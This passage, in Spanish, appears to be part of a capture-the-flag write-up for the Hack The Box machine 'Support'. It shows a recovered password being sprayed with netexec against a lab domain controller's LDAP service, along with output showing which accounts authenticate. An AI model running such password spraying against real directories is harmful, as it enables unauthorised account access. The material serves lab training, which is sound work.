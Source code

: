 ![](/assets/img/Support/image_8.png)

`Obtenemos` la `contraseña`

![](/assets/img/Support/image_9.png)

## LDAP

`Enumeramos usuarios` válidos de `ldap`

```
# netexec ldap 10.129.178.149 -u users -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-succes
SMB         10.129.178.149  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.129.178.149  389    DC               [-] support.htb\support:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\guest:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c
LDAP        10.129.178.149  389    DC               [+] support.htb\armando:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\administrator:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.178.149  389    DC               [-] support.htb\raven.clifton:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```